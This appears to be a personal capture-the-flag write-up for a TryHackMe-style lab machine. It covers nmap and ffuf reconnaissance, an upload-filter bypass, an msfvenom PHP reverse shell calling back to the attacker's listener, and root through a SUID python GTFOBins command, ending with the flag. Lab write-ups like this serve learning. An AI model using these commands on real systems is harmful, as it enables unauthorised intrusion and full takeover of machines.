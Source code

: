 <mark style="background: #BBFABBA6;">Nmap</mark>

┌──(root💀kali)-[~/Desktop/THM]
└─# nmap  -sT -sV 10.10.218.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 16:13 IST
Nmap scan report for 10.10.218.129
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.91 seconds




<mark style="background: #BBFABBA6;">HTTP</mark>


http://10.10.218.129


found nothing in robots.txt and source code


Found out website is running php usings wappalyzer


Tried brutte force using ffuf

──(root💀kali)-[~/Desktop/THM]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.218.129/FUZZ  


Found some directories

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 408ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 410ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 410ms]
panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 408ms]


Found out we can uplaod a file on /panel directory


so i uploaded the PHP rev shell i have on my system but i some some text in other language so i google it.
Turnz out it was portuguese and after translation

it was "PHP is not allowed"

ok now i found a list of extension on the internet
https://gist.github.com/securifera/e7eed730cbe1ce43d0c29d7cd2d582f4

used burp to capture that packet and bruteforced the extention of the file to see what ext were accepted by the server


ok turns out almost all ext are accepted it was the browser that was blocking the php extension upload because in the brute force .php was also present

Now i started a netcat listener on port 9999


and opened the php file on http://10.10.218.129/uploads/


http://10.10.218.129/uploads/revshell.%252ephp


But i was getting an error. i tried searching on the inernet.

instead i went with msfvenom payload created and made a php reverse shell using msfvenom

┌──(root💀kali)-[~/Desktop/THM]
└─# msfvenom -p php/reverse_php LHOST:10.4.14.186 LPORT:9999 -f raw -o venom_revshell.php5

>had to change the ip and port again using mousepad because it was not update idk why


okay this time the brose was stuck in loading page and no connection on netcat


okay so i triead with different port nu,mber 1337 and i worked

so great, a little break of 2 min works


okay so issue still persisted 

<mark style="background: #FF5582A6;">when i used port 8080 and changed the filenmae to a.php it worked </mark>

Found the first flag in :






<mark style="background: #BBFABBA6;">Privilege Escalation</mark>


i followed the priv escalation notes and found all the systems with SUID bits sets using below commands


`find / -perm -u=s -type f 2>/dev/null`


Now here i didnt knew which files was supposed to be wierd so I tried them all in THM answers

i got python to be the correct one

/usr/bin/python


Now i went to 
https://gtfobins.github.io/gtfobins/python/

to check what commands to run to escalate priv for python SUID bit set

i ran the below command and I got root

>python -c 'import os; os.execl("/bin/sh", "sh", "-p")'


Now in the home directory of root i got the root flag


THM{pr1v1l3g3_3sc4l4t10n}


System completed



